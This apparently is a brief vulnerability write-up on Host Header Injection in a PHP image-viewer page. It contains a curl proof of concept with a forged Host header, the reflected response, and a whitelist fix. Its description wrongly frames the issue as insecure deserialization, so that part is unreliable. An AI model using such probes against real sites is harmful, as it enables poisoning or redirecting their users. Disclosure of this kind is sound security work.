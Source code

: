 ### Description

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks,including replay attacks, injection attacks, and privilege escalation attacks.

refers : 
* https://portswigger.net/kb/issues/00200200_http-response-header-injection 
* https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization

### Issue 

It is possible to Host Header Injection on server and it will reflect in web page.

### Exploit 


```console
curl -i http://0 --header "host:example.com"
```

Get Response : 

```html
HTTP/1.1 200 OK
Host: example.com
Date: Fri, 20 Dec 2019 22:35:47 +0530
Connection: close
X-Powered-By: PHP/7.2.9-1
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<body>
<center>
<fieldset>
<legend>IMG viewer</legend>
<img width="500" src="http://example.com/img.png" >
</fieldset>
</center>
</body>
</html>	
```
### Fix 

Server reject anything that doesn't match with the white listed host 

